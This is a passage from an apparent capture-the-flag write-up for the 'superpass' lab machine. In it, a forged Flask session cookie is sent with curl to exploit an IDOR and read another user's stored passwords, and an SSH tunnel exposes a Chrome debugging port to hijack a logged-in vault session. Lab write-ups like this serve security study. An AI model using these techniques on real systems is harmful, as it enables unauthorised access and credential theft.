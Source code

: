 * This app is running on port 5555
* and also the "superpass" app source is same and their SECRET_KEY is also same (`/app/app-testing/superpass/app.py`) so we can sign a token and use same IDOR from above to find that user's passwords who is logging in using creds stored in the `creds.txt`.

```bash
curl -b "session=.eJwljsFqwzAQRH9F7DkUSSvvav0VvZcQ1tIqNrhNsZxTyL9X0NMwvGF4L7i1XftqHeavF7hzBHxb73o3uMDnbtrN7Y-7237c-XBayoDuXLfufsfmA67v62WcHNZXmM_jaaNtFWZgREP0ylbEKpmmmBDFB2mMlLilFiMGqSoyaONMOUSORSPpotWYCqsoikplzySpUsuNfJTiU8rRQuZlqpITYdaJsHGYfKS6SBEa-rdnt-PfJsD7D50JRQY.ZARgKg.D7KY3_1sR6Ts2BGJmcL2SSrOmsE" http://127.0.0.1:5555/vault/edit_row/1
```

![](screenshots/test-app-idor.png)



## Chrome Debug Mode

**Intended(?)**

Creating ssh tunnel to redirect debugger port to our machine.

```bash
ssh -L 41829:localhost:41829 admin@server.com
```

Add the target in the chrome browser from `chrome://inspect/#devices` using "Discover network targets" option.

And when it appear in the remote target list, open `http://test.superpass.htb/vault` url.
